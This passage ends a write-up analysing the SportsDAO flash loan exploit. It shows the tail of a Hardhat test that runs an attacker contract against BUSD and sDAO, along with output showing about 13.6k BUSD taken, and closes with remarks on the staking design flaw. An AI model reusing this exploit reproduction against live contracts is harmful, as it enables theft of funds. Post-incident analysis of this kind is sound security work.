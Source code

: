 ```ts

    await busdContract.connect(impersonated).transferOwnership(attacker.getAddress());

    await busdContract.connect(attacker).mint(ethers.utils.parseEther('500'));

    await busdContract
      .connect(attacker)
      .transfer(attackerContract.address, ethers.utils.parseEther('500'));*/
  });

  it('Exploits successfully', async () => {
    // Run our exploit
    await attackerContract.exploit();

    // We should expect to have more than 0 BUSD
    expect(await busdContract.balanceOf(attacker.getAddress())).to.be.gt('0');
  });
});
```

Exploit output:

```
$ yarn sportsdao
yarn run v1.22.19
$ npx hardhat test test/sportsdao_attack/sportsdao_attack.test.ts
Compiled 1 Solidity file successfully


  SportsDAO Exploit
BUSD balance before attack:  0
BUSD balance after attack:  13661
    ✔ Exploits successfully (249ms)


  1 passing (7s)

Done in 8.08s.
```

# Conclusion

This was yet another flash loan attack, only this time, the vulnerability was brought into existence by the SportsDAO team when they attempted to implement staking + rewards functionality into an IERC20 contract. Ideally, this sort of functionality should be implemented in a separate vault-style contract so that the same contract does not unnecessarily keep a balance of multiple tokens.

The attacker was able to utilize these vulnerabilities to get away with ~13.6k worth of BUSD. Although, I'd consider SportsDAO lucky, because the attacker could have performed this attack multiple times and gotten away with way more than they did. The sDAO contract still had ~418k sDAO tokens left after the attack.

As always, if you have any questions, you can find me on [twitter](https://twitter.com/farazsth98) or [mastodon](https://infosec.exchange/@farazsth98). Open to any feedback / criticism / questions :)